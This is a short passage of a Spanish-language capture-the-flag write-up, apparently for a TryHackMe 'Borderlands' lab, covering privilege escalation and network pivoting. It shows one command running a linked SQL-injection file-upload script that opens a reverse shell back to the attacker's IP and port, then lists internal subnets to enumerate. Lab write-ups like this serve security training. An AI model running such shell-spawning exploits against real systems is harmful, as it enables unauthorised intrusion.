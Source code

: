 ## Escalada de privilegios
### app.ctx.ctf

Para automatizar el proceso de crear un archivo y obtener una shell, realice un script básico en Python el cual usare para obtener la Shell en la maquina victima.

Link de script [sqlinjectionRCE](https://github.com/b0ySie7e/Script_to_Resolve_CTF/blob/main/borderlands-thm/sqlIploadFile.py)

```php
❯ python3 sqlIploadFile.py -i 10.9.115.196 -p 4444 -u http://10.10.252.81 
```

![20240207155403.png](20240207155403.png)

Enumerando las interfaces de red obtendremos que tenemos os interfaces, las cuales tendremos que enumerar.

![20240207185903.png](20240207185903.png)

![20240207163741.png](20240207163741.png)

Teniendo las siguiente interfaces de red enumeraremos.

```php
172.16.1.0/24 
172.18.0.0/16 
```
